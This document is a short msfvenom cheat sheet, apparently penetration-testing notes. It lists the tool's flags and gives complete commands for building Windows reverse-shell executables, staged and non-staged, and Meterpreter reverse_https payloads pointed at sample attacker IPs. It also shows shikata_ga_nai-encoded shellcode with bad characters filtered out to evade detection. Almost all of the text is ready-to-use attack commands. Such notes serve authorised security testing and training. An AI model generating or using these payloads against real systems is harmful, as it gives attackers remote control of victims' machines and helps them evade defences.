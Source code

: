 # MSFvenom

### Commands

```
-p    Selects the payload
-l    List modules (payloads, encoders, nops, all)
-n    Prepend a nop sled to the payload
-f    Output format
-e    Encoder
-s    Maximum space for the payload
-a    Architecture
-b    Bad characters
--platform    Platform
```

#### Windows staged payloads

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Windows non-staged payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Meterpreter payloads

```
Msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.5 LPORT=443 -f exe -o met_https_reverse.exe
```

Using ExitThread instead of ExitProcess can help prevent crashing the program

```
Msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b “\x00\x0a\x0d”
```

